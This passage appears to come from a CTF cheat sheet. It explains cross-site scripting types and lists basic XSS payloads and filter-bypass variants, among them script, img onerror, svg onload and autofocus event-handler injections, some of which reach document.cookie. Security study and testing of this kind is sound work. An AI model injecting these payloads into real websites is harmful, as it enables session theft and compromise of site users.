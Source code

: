 **Reference**: `~/ctf-tools/PayloadsAllTheThings/SQL Injection/`

---

### 🎨 Cross-Site Scripting (XSS)

**What it is**: Injecting malicious JavaScript into web pages

**Types**:
- **Reflected XSS**: Payload in URL parameter
- **Stored XSS**: Payload saved in database
- **DOM-based XSS**: Client-side script manipulation

**Basic Payloads**:
```html
<!-- Simple Alert -->
<script>alert('XSS')</script>
<script>alert(document.domain)</script>

<!-- Image Onerror -->
<img src=x onerror=alert('XSS')>
<img src=x onerror=alert(document.cookie)>

<!-- SVG -->
<svg onload=alert('XSS')>
<svg/onload=alert('XSS')>

<!-- Iframe -->
<iframe src="javascript:alert('XSS')">

<!-- Body -->
<body onload=alert('XSS')>
```

**Bypass Filters**:
```html
<!-- No quotes -->
<script>alert(String.fromCharCode(88,83,83))</script>

<!-- Case variation -->
<ScRiPt>alert('XSS')</sCrIpT>

<!-- Encoding -->
<script>alert('XSS')</script> → %3Cscript%3Ealert('XSS')%3C/script%3E

<!-- Event handlers -->
<input onfocus=alert('XSS') autofocus>
<select onfocus=alert('XSS') autofocus>

<!-- Uncommon tags -->
<details open ontoggle=alert('XSS')>
<marquee onstart=alert('XSS')>
```
